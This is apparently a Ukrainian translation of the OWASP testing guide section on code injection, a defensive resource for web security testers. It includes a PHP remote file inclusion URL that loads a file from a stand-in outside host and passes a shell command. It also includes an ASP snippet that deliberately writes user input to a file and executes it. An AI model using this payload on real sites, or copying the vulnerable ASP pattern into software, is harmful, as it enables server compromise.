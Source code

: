 # 4.7.11 Тестування ін'єкції коду (WSTG-INPV-11)

## Резюме
Цей розділ описує, як тестувальник може перевірити, чи можна ввести код як ввід на веб-сторінку і виконати його веб-сервером.

При тестуванні ін'єкції коду тестувальник подає ввід, який обробляється веб-сервером як динамічний код або як включений файл. Ці тести можуть спрямовуватись на різні серверні механізми сценаріїв, наприклад, ASP або PHP. Належна валідація вводу та безпечні практики кодування повинні використовуватися для захисту від цих атак.

## Цілі тестування
- Виявити точки ін'єкції, де можна ін'єктувати код в додаток.
- Оцінити серйозність ін'єкції.

## Як тестувати

### Тестування чорної скриньки

#### Тестування вразливостей ін'єкції PHP
Використовуючи рядок запиту, тестувальник може ін'єктувати код (у цьому прикладі шкідливий URL) для обробки як частини включеного файлу:

`https://www.example.com/uptime.php?pin=https://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a`

> Шкідливий URL приймається як параметр для PHP-сторінки, який пізніше буде використаний у включеному файлі.

### Тестування сірої скриньки

#### Тестування вразливостей ін'єкції коду ASP
Дослідіть ASP-код на предмет користувацького вводу, який використовується у функціях виконання. Чи може користувач вводити команди в поле вводу даних? Тут ASP-код збереже ввід у файл, а потім виконає його:

```asp
<%
If not isEmpty(Request( "Data" ) ) Then
Dim fso, f
'Користувацький ввід Data записується у файл з назвою data.txt
Set fso = CreateObject("Scripting.FileSystemObject")
Set f = fso.OpenTextFile(Server.MapPath( "data.txt" ), 8, True)
f.Write Request("Data") & vbCrLf
f.close
Set f = nothing
Set fso = Nothing

'Data.txt виконується
Server.Execute( "data.txt" )

Else
%>

<form>
<input name="Data" /><input type="submit" name="Enter Data" />
</form>

<%
End If
%>
```

## Посилання
- Security Focus
- Insecure.org  
- Wikipedia
- OWASP Wiki про OS Injection